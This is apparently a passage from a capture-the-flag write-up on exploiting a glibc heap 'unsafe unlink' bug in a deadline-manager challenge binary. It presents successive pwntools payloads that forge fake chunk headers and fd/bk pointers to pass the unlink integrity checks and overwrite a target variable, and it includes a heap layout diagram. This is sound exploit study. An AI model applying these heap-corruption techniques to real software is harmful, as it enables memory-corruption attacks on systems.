 Try using this:

```python
edit_ddl_conn(1, p64(0)                    # fake_chunk.mchunk_prev_size
              + p64(size_fake_chunk + 1)   # fake_chunk.mchunk_size (P=1)
              + p64(addr_targetID - 24)    # fake_chunk.fd
              + p64(addr_fake_chunk - 16)  # fake_chunk.bk
              , b'A' * (DDL_CONTENT - 8) + p64(size_fake_chunk))
```

This payload will get an `b'corrupted double-linked list\n'`.

After that I found that the `fake_chunk.mchunk_prev_size` section is not in used, so why not try using it to pass the second check?

```python
edit_ddl_conn(index=1, time='whatever',
              content=p64(addr_fake_chunk)        # *P == fake_chunk.mchunk_prev_size
              + p64(size_fake_chunk | 1)          # fake_chunk.mchunk_size (P=1)
              + p64(addr_addr_fake_chunk - 0x18)  # fake_chunk.fd
              + p64(addr_addr_fake_chunk - 0x10)  # fake_chunk.bk
              + b'A' * (DDL_CONTENT - 0x28)       # ...
              + p64(size_fake_chunk))             # next_chunk.mchunk_prev_size
```

Apparently the `array[0]->ddl_content` is pointed to the fake chunk, which means `*addr_fake_chunk == addr_fake_chunk` There will be no error info then.

But why it still not working? (An EOF occur means the program crash) Reference to the [Next Chapter](#Unsafe-Unlink).

The final payload will be:

```python
edit_ddl_conn(index=1,
              time_nolf=p64(addr_array0)     # *P == fake_chunk.mchunk_prev_size
              + p64(size_fake_chunk | 1)     # fake_chunk.mchunk_size (P=1)
              + p64(addr_array - 0x18)       # FD->bk == addr_array0
              + p64(addr_array - 0x10),      # BK->fd == addr_array0
              content=p64(0)                 # P->fd_nextsize
              + b'A' * (DDL_CONTENT - 0x10)  # ...
              + p64(size_fake_chunk))        # next_chunk.mchunk_prev_size
```

#### Modify targetID

With the same principle, just change the position where a `addr_fake_chunk` is held to somewhere else while using `addr_targetID - 0x10` as the `fake_chunk.fd` so as to we can add a ddl obj with a non-zero `ddl_time` and pass the check.

Still consider the rule: `*(*(P + 16) + 24) == P && *(*(P + 24) + 16) == P`

However, the only value in the program that is closed to the address of current `fake_chunk` is `array[0]`. But it required the fake chunk starts from the `ddl_time` rather than the `ddl_content`. So re-draw the heap graph:

```
|       ....       |       ....       |
+------------------+------------------+ <-- targetID, 0x6020c0
|     targetID     |                  |
+------------------+------------------+
|                  |                  |
+------------------+------------------+ <-- ary, 0x6020e0
|     array[0]     |     array[1]     |
+------------------+------------------+
|                  |                  |
|      ......      |      ......      |
|                  |                  |
+------------------+------------------+ <-- ※old_ck = ary[0] - 0x10, 0x603250
| mchunk_prev_size |   mchunk_size    |
```